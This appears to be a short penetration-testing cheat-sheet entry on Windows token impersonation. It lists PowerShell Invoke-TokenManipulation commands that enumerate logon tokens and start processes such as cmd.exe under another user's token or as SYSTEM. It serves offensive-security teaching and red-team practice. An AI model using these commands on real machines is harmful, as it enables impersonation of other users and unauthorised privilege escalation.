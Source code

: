 
Tokens can be impersonated from other users with session/running processes on the machine.
There are numerous ways token manipulation can be achieved.

A powershell script `Invoke-TokenManipulation` can be used to enumerate and impersonate tokens. It requires admin privs. This allows you to use another user's credentials over the network by creating a process with their logon token.

```powershell
#Show all tokens available on the machine
Invoke-TokenManipulation -ShowAll

#Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

#Start process with the token of a specific user
Invoke-TokenManipulation -CreateProcess "process_name" -Username "username"
#(could be useful to spawn a process as system when you are admin but not system)


#Start a process with the token of another process
Invoke-TokenManipulation -CreateProcess "cmd.exe" -ProcessId 500
```

